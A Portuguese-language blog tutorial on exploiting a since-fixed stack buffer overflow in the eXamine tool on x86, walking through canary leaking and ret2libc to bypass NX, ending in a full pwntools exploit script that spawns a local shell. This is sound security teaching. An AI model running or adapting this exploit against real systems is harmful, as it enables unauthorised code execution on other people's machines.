


# Bypassando NX e Canary em x86
1523577600

Ou “pwning for dummies”

Mês passado o [Fernando Mercês](https://medium.com/u/ab160d5eb7a4) pediu pelo [Twitter](https://twitter.com/MercesFernando/status/979170684881555457) que reportássemos bugs em uma ferramenta dele. Como estava estudando _pwning,_ imaginei que procurar por vulnerabilidades nos repositórios dele seria um bom desafio. _(_ ̶_s̶o̶r̶r̶y̶ ̶m̶e̶r̶c̶ê̶s̶ )_

Encontrei um [Stack Buffer Overflow](https://en.wikipedia.org/wiki/Stack_buffer_overflow) na tool [**eXamine**](https://github.com/merces/examine) e escrevi um _exploit_ _bypassando_ várias proteções “modernas” como o NX e o Canary.  
Esse texto é um _write up_ bem introdutório sobre essas proteções e como foi o processo de escrever o _exploit_ com o [_pwntools_](https://github.com/Gallopsled/pwntools)  para a arquitetura x86, depois soltarei outro texto para x64, também assumo que o leitor já tenha algum conhecimento sobre _buffer overflows_, _Assembly_ e etc.

A vulnerabilidade foi consertada em tempo recorde de 2 dias.  
_Se você for_ um **_l33t0_** _apressado, o exploit tá lá embaixo._

### Stack Buffer Overflow

Reprodução da função main do código vulnerável

				int main(int argc, char *argv[]) {
					int i;
					char s[MAX_CMD_LINE], c;

					memset(s, 0, MAX_CMD_LINE);

					// Loop until Ctrl+C is pressed
					for (i=0; ; i++) {
						if ((c = getchar()) == EOF) // End Of File reached when reading from a pipe
							break;

						if (c == '\n') {
							examine(s);
							memset(s, 0, MAX_CMD_LINE);
							i=-1;
							putchar('\n');
						}
						s[i] = c;
					}

					return 0;
				}

Note a linha 18, ela escreve um _char_ na array “_s”_ mas nunca checa se o “_i”_ é maior do que o tamanho da _array_. Assim, podemos escrever o quanto quisermos na _stack._ Agora fica fácil de redirecionar a execução do programa para onde quisermos, é só colocar um _shellcode_ na _stack_ e executa-lo, certo ?

Errado ( ̶o̶t̶á̶r̶i̶o̶!̶), o problema é que essa vulnerabilidade já tem mais de [40 anos](https://en.wikipedia.org/wiki/Buffer_overflow#History), e com o tempo os sistemas operacionais foram implementando várias proteções que dificultam enormemente a exploração.

Utilizando o [_checksec_](https://github.com/RobinDavid/checksec/blob/master/checksec.sh) conseguimos verificar todas as proteções no nosso binário: [Canary](https://en.wikipedia.org/wiki/Stack_buffer_overflow#Stack_canaries); [RELRO](https://tk-blog.blogspot.com.br/2009/02/relro-not-so-well-known-memory.html) e [NX](https://en.wikipedia.org/wiki/NX_bit) — Eu desabilitei o [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization) da minha máquina, porque ̶s̶o̶u̶ ̶n̶0̶0̶b̶ ativado faria com que as alocações de memória fossem aleatórias, tentarei fazer um _exploit_ para _bypassar_ ele também no futuro.

				$ checksec examine32  
				\[\*\] ‘/home/vagrant/host/CTF/mentebinaria/examine/examine32’  
				 Arch: i386–32-little  
				 RELRO: Partial RELRO  
				 Stack: Canary found  
				 NX: NX enabled  
				 PIE: No PIE (0x8048000)  
				 FORTIFY: Enabled

### No-eXecute

Também conhecido como NX, essa proteção determina quais áreas da memória poderão ser executadas. Impedindo assim, que o atacante coloque seu _payload_ malicioso na _Stack_ e o execute com alguma vulnerabilidade. Existem inúmeras maneiras de evitar essa proteção, neste _exploit_ eu usei o _ret2libc — _recomendo a leitura do primeiro [artigo sobre o assunto](http://seclists.org/bugtraq/1997/Aug/63).

A idéia principal do _ret2libc_ é que ao invés de redirecionarmos a execução do programa para o nosso payload na _stack,_ vamos executar algo da [libc](https://en.wikipedia.org/wiki/C_standard_library) como um _system(“/bin/sh”)_ por exemplo. Para fazermos isso precisamos passar argumentos para a função. No x86 os argumentos ficam na _stack_, então temos que prepará-la de acordo com o que quisermos fazer. No caso nossa stack terá que se parecer com essa :

Então temos que descobrir os endereços. Para fazer isso podemos utilizar o [GDB](https://en.wikipedia.org/wiki/GNU_Debugger) com o [**peda**](https://github.com/longld/peda). Descobrindo os endereços de _exit_ e de _system_ na _libc_:

				gdb-peda$ p system  
				$1 = {<text variable, no debug info>} 0xf7e19e70 <system>  
				gdb-peda$ p exit  
				$2 = {<text variable, no debug info>} 0xf7e0cf50 <exit>

Também precisamos encontrar o endereço da string “/bin/sh” :

				gdb-peda$ find “/bin/sh”  
				Searching for ‘/bin/sh’ in: None ranges  
				Found 1 results, display max 1 items:  
				libc : 0xf7f39fcc (“/bin/sh”)

Importante notar que é necessário saber qual a versão do _libc_ na máquina alvo para encontrar as funções desejadas (_system_ por exemplo), calculando os _offsets_ através do endereço base de memória alocada para _libc_. Pois os _offsets_ se diferenciam entre as versões. Aqui tem uma database de versões para ajudar a encontrar : [github.com/niklasb/libc-database](https://github.com/niklasb/libc-database) — Discutirei isso mais a fundo no próximo post.

Vamos começar o esboço do nosso _exploit_.  

from pwn import *

				p = process("./examine32")
				system = 0xf7e19e70
				exit = 0xf7e0cf50
				bash = 0xf7f39fcc
				offset = ???

				exploit = "A"*offset+p32(system)+p32(exit)+p32(bash)+"\xff"

				p.sendline(exploit)
				p.interactive()

Abrimos o processo, declaramos os endereços, montamos o _payload_ e adicionamos o _0xff_ para servir de EOF — Vide linha 9 do código, precisamos do EOF para atingirmos o _return._

Mas ainda não sabemos o _offset,_ vamos descobri-lo usando o GDB :  
_Leia os # , são meus comentários._

				$ gdb ./examine32  
				\[... cortado\]  
				gdb-peda$ pattern\_create 2000 pat   
				Writing pattern of 2000 chars to filename “pat”  
				\# Primeiro criamos um arquivo "pat" de tamanho 2000 com um pattern para podermos identificar exatamente o offset  
				gdb-peda$ r < pat # rodando o programa com o arquivo pat  
				Starting program: /home/vagrant/host/CTF/mentebinaria/examine/examine32 < pat

				Program received signal SIGSEGV, Segmentation fault.  
				\# Recebemos um SIGSEGV, vamos analizar por que.  
				\[... cortado\]  
				\[ — — — — — — — — — — — — — — — — — — -code — — — — — — — — — — — -\]  
				 0xf7e0c5cb <getenv+107>: mov esi,DWORD PTR \[ebp+0x0\]  
				 0xf7e0c5ce <getenv+110>: test esi,esi  
				 0xf7e0c5d0 <getenv+112>: je 0xf7e0c62a <getenv+202>  
				\=> 0xf7e0c5d2 <getenv+114>: cmp di,WORD PTR \[esi\]  # por algum motivo o binário foi parar em getenv e bugou pois o valor de ESI foi sobrescrito  
				\[... cortado\]  
					
				gdb-peda$ bt # vamos checar com o backtrace porque o binário foi parar em getenv  
				#0 0xf7e0c5d2 in getenv () from /lib32/libc.so.6  
				#1 0xf7e4230b in ?? () from /lib32/libc.so.6  
				#2 0xf7ed5c9b in \_\_fortify\_fail () from /lib32/libc.so.6  
				#3 0xf7ed5c2a in \_\_stack\_chk\_fail () from /lib32/libc.so.6 # Opa ,o que é isso ?   
				#4 0x08048767 in main ()

Recebemos um SIGSEGV pois o binário chamou _\_\_stack\_chk\_fail_, vamos fazer uma breve análise no [IDA](https://www.hex-rays.com/products/ida/) para entendermos porque ele foi parar lá.

Na **seta** **1** ele compara o nosso _input_ com _0xff _, isso corresponde a linha 9 do _main_, onde ele compara com EOF e que resulta no _return_. Mas antes de ir para o _return_ ele vai para **seta 2** onde ele compara um valor da _stack_ _“$esp+3FCh”_ com outro um valor _“$gs:14h”_ e checa se são iguais, caso não forem ele chama a função _\_\_stack\_chk\_fail,_ que causou o erro.

### Canary

Isto é chamado de Canary, ou _stack cookie_, um valor randômico que o programa conhece que é colocado na _stack_ e antes de fazer um _return_ é checado se ele foi alterado. Nosso problema é que para fazermos o _ret2libc,_ ou qualquer outra técnica de _buffer overflow,_ vamos acabar sobrescrevendo o Canary. Então para _bypassa-lo_ precisamos conhecer o seu valor.

Mas antes de tentarmos descobrir o valor, precisamos ainda descobrir o _offset_ correto. Para isso, voltemos ao GDB. Vamos basicamente ignorar a checagem do _Canary_ e ver o que acontece.  
_Leia os # , são meus comentários._

				$ gdb ./examine32  
				gdb-peda$ disas main  
				\# Vamos encontrar onde ele faz a checagem que vimos no IDA  
				Dump of assembler code for function main:  
				 \[... cortado\]  
				 0x08048748 <+152>: xor eax,eax # É aqui onde começa o a checagem do Canary  
				 0x0804874a <+154>: mov esi,DWORD PTR \[esp+0x3fc\]  
				 0x08048751 <+161>: xor esi,DWORD PTR gs:0x14  
				 0x08048758 <+168>: jne 0x8048762 <main+178>  
				 0x0804875a <+170>: lea esp,\[ebp-0xc\]  
				 0x0804875d <+173>: pop ebx  
				 0x0804875e <+174>: pop esi  
				 0x0804875f <+175>: pop edi  
				 0x08048760 <+176>: pop ebp  
				 0x08048761 <+177>: ret  
				 0x08048762 <+178>: call 0x80485e0 <\_\_stack\_chk\_fail@plt>  
				End of assembler dump.  
				gdb-peda$ b \* main+161 # colocando um breakpoint para logo antes do jne  
				Breakpoint 1 at 0x8048751  
				gdb-peda$ r < pat # executando o programa

				\[... cortado\]  
				\[ — — — — — — — — — — — — — -code — — — — — — — — — — — — — — — — -\]  
				 0x8048741 <main+145>: lea esi,\[esi+eiz\*1+0x0\]  
				 0x8048748 <main+152>: xor eax,eax  
				 0x804874a <main+154>: mov esi,DWORD PTR \[esp+0x3fc\]  
				\=> 0x8048751 <main+161>: xor esi,DWORD PTR gs:0x14  
				 0x8048758 <main+168>: jne 0x8048762 <main+178>  
				 0x804875a <main+170>: lea esp,\[ebp-0xc\]  
				 0x804875d <main+173>: pop ebx  
				 0x804875e <main+174>: pop esi  
				\[ — — — — — — — — — — —— — — stack — — — — — — — — — — — — — — — -\]  
				\[... cortado\]  
				Breakpoint 1, 0x08048751 in main () # atingimos o breakpoint  
				gdb-peda$ s # indo para o jne  
				\[... cortado\]  
				\[ — — — — — — — — — — — — — — — — -code — — — — —— — — — — — — — -\]  
				 0x8048748 <main+152>: xor eax,eax  
				 0x804874a <main+154>: mov esi,DWORD PTR \[esp+0x3fc\]  
				 0x8048751 <main+161>: xor esi,DWORD PTR gs:0x14  
				\=> 0x8048758 <main+168>: jne 0x8048762 <main+178>  
				 | 0x804875a <main+170>: lea esp,\[ebp-0xc\]  
				 | 0x804875d <main+173>: pop ebx  
				 | 0x804875e <main+174>: pop esi  
				 | 0x804875f <main+175>: pop edi  
				 |-> 0x8048762 <main+178>: call 0x80485e0 <\_\_stack\_chk\_fail@plt>  
				 0x8048767 <\_start>: xor ebp,ebp  
				 0x8048769 <\_start+2>: pop esi  
				 0x804876a <\_start+3>: mov ecx,esp  
				 JUMP is taken  
				\[... cortado\]  
				0x08048758 in main ()  
				gdb-peda$ j \* main+170 # dando um jump para 0x804875a, ignorando o jne  
				Continuing at 0x804875a.

				Program received signal SIGSEGV, Segmentation fault.  
				\[ — — — — — — — —— — — — — registers — — — — — — — — — — — — — — -\]  
				EAX: 0x0  
				EBX: 0x6e41246e (‘n$An’)  
				ECX: 0xf7f858a4 → 0x0  
				EDX: 0xffffffff  
				ESI: 0x436e416e (‘nAnC’)  
				EDI: 0x412d6e41 (‘An-A’)  
				EBP: 0x6e41286e (‘n(An’)  
				ESP: 0xffffd650 (“An)AnEAnaAn0AnFAnbAn1AnGAncAn2AnHAndAn3AnIAneAn4AnJAnfAn5AnKAngAn6AnLAnhAn7AnMAni
				An8AnNAnjAn9AnOAnkAnPAnlAnQAnmAnRAnoAnSAnpAnTAnqAnUAnrAnVAntAnWAnuAnXAnvAnYAnwAnZA
				nxAnyAnzAC%ACsACBAC$ACnACCAC-AC(ACDAC”…)  
				EIP: 0x3b6e4144 (‘DAn;’) # EIP sobrescrito  
				EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)  
				\[ — — — — — — — — — — — — — -code — — — — — — — — — — — — — — — -\]  
				Invalid $PC address: 0x3b6e4144  
				\[... cortado\]  
				Stopped reason: SIGSEGV  
				0x3b6e4144 in ?? ()  
				gdb-peda$ pattern\_offset “DAn;” # procurando o offset de “DAn;”   
				DAn; found at offset: 1032 # achamos o offset

#### Lendo o Canary

Precisamos de alguma forma ler o conteúdo do Canary para coloca-lo certo na stack.   
Depois de receber um _input_ o programa executa o código abaixo, que transforma a array para URL Encoding.

				for (i=0; i < strlen(s); i++)  
					 printf("%%%2X", s\[i\]);

Essa é a _stack_ normal do programa, com o Canary logo depois da _array_ que estamos sobrescrevendo. Note os bytes nulos no final dos dois.

Uma _string_, sendo uma _array_ de _chars_, tem seu término delimitado pelo byte nulo. Se sobrescrevermos apenas o _nullbyte_ da string “_s”_ o _strlen_ continuará contando até encontrar o outro _nullbyte_ do Canary, assim, conseguiremos _printar_ o valor do Canary.  
Segue :

				$ python -c “print ‘A’\*1001” > aaa # 1001 é o tamanho da array  
				$ ./examine32 < aaa  
				\[... cortado\]  
				URL encoding: %41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%FFFFFF9C%FFFFFFCF%FFFFFFD3%FFFFFFC4%43%FFFFFFF8%FFFFFFF7

Conseguimos assim ler os valores do Canary, depois temos apenas que montar a stack com o valor dele para não cairmos no _\_\_stack\_chk\_fail._

E o exploit final :

				from pwn import *

				p = process("./examine32")
				offset = 1032 # offset para sobrescrever o EIP
				read_canary_payload = "A"*1001 # sobrescrevendo o nullbyte para leakar o valor do Canary
				p.sendline(read_canary_payload)
				canary = p.recvuntil("Timestamp").split("%") 
				canary = [canary[i][-2:] for i in range(-7,0)][:3] # Lendo o output
				canary = [x.replace(" ","0") for x in canary] # o zero buga o printf
				print "[!] Canary found : "+str(canary)
				canary = int(''.join(canary),16)

				system = 0xf7e19e70
				exit = 0xf7e0cf50
				bash = 0xf7f39fcc

				exploit = "A"*1000+p32(canary)[::-1]+"\x00" # o canary acaba com nullbyte
				exploit += ("A"*(offset-len(exploit)))+p32(system)+p32(exit)+p32(bash)+"\xff" # 0xff = EOF
				p.sendline(exploit)
				p.interactive() # g0t sh3ll ?

Como em x64 os argumentos ficam nos registradores, precisaremos fazer mais coisa antes de chamar o _system,_ esse será o tópico do próximo post.

Inté !

